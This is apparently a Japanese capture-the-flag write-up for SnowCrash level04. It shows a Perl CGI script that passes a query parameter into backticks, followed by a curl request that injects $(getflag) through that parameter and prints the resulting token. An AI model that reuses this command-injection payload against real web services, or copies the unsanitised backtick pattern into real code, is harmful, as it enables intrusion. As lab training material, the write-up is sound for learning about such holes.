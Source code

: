 ```sh
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

`localhost:4747`へリクエストを送れる。
`x(param("x"));`クエリパラメーターの`x`を`echo`してる。
これを利用して、`$(getflag)`変数展開する。

```sh
level04@SnowCrash:~$ curl 'http://localhost:4747/?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
